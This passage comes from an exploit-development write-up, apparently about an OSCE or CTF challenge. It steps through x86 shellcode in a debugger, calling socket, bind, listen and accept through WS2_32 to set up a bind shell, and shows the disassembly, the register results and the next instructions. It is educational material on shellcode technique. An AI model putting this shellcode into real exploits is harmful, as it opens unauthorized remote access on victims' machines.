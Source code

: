 And this is what we get as shellcode:

``` txt
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
00B5FFE6   CC               INT3
00B5FFE7   B3 5C            MOV BL,5C
00B5FFE9   6A 7F            PUSH 7F
00B5FFEB   57               PUSH EDI
00B5FFEC   FFD3             CALL EBX
```

With the registers containing the following successful result:

``` txt
EAX 00000000
ECX 0024CF98
EDX 00000000
EBX 0040345C <JMP.&WS2_32.listen>
ESP 00B5FF44
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFEE
O 0  LastErr ERROR_SUCCESS (00000000)
```

Making good progress. Now we need to start accepting new connections on our socket, for that we get `accept` set up. The call would normally look like `accept(socket, NULL, NULL)`, but we're in a great spot because `ESP` current points to the middle of bunch of zeros, which means the two `NULL` values are effectively already pushed. This means we save instructions by not pushing them. Instead, we just adjust `EBX` to point at `accept`, push our socket handle and make the call:

``` txt
MOV BL, 0x24          ; Point EBX at `accept`
PUSH EDI              ; Pass in the socket
CALL EBX              ; Invoke accept
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux